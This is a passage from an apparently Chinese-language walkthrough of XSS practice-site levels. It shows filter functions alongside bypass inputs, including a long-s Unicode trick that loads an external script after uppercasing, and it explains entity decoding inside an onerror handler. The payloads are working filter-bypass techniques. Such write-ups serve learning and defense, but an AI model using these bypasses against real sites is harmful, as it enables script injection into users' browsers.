 Input Code

```js

alert(1)
-->
```

HTML

```html
<script>
  // alert('
  alert(1);
  -->')
</script>
```

## 0x0E

古英文中`ſ`等于现在的`s`，绕过 script。JS 大小写敏感，HTML 大小写不敏感，所以通过引用外部链接的方式，引用其他 js 文件

Server Code

```js
function render(input) {
  input = input.replace(/<([a-zA-Z])/g, "<_$1");
  input = input.toUpperCase();
  return "<h1>" + input + "</h1>";
}
```

Input Code

```js
<ſcript src="https://xss.haozi.me/j.js"></script>
```

HTML

```html
<h1><script src="HTTPS://XSS.HAOZI.ME/J.JS"></script></h1>
```

## 0x0F

他这里对 html 标签的行内字符进行转义并没有任何作用，因为浏览器会先解析 html 再解析 js，所以它转义后的实体字符还是会先被解析。所以直接闭合就行了

Server Code

```js
function render(input) {
  function escapeHtml(s) {
    return s
      .replace(/&/g, "&amp;")
      .replace(/'/g, "&#39;")
      .replace(/"/g, "&quot;")
      .replace(/</g, "&lt;")
      .replace(/>/g, "&gt;")
      .replace(/\//g, "&#x2f;");
  }
  return `<img src onerror="console.error('${escapeHtml(input)}')">`;
}
```
